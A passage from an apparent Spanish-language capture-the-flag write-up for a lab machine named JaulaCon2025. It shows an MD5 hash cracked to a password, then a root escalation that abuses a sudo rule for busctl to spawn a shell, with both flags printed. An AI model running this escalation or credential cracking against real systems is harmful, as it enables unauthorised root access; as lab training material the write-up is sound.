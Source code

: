 
Desde nuestra maquina de atacante comprobamos que es **md5**
```bash
hashid 551211bcd6ef18e32742a73fcb85430b
Analyzing '551211bcd6ef18e32742a73fcb85430b'
[+] MD2 
[+] MD5
```

Usando un recurso **only** obtenemos la password
```bash
551211bcd6ef18e32742a73fcb85430b : Brutales
```

Ganamos acceso como este usuario:
```bash
su JaulaCon2025 # ( Brutales )
```
###### Usuario `[ JaulaCon2025 ]`:
Flag usuario:
```bash
 cat user.txt 
368409a919088e8707d0617365156184  -
```

LIsanto los permios para este usuario tenemos lo siguiente:
```bash
sudo -l

User JaulaCon2025 may run the following commands on JaulaCon2025:
    (root) NOPASSWD: /usr/bin/busctl
```

Nos aprovechamos de esta binario para ganar acceso como root
```bash
# Comando para escalar al usuario: ( root )
udo -u root /usr/bin/busctl set-property org.freedesktop.systemd1 /org/freedesktop/systemd1 org.freedesktop.systemd1.Manager LogLevel s debug --address=unixexec:path=/bin/sh,argv1=-c,argv2='/bin/sh -i 0<&2 1>&2'
sudo: unable to resolve host JaulaCon2025: No existe ninguna dirección asociada al nombre
```

---

## Evidencia de Compromiso
Forzamos una bash
```bash
# script /dev/null -c bash
```

Flag de root
```bash
root@JaulaCon2025:/home/JaulaCon2025# cat /root/root.txt 
097fac9db83a1806f3355cf95227992a
```

```bash
# Captura de pantalla o output final
root@JaulaCon2025:/home/JaulaCon2025# whoami
root
```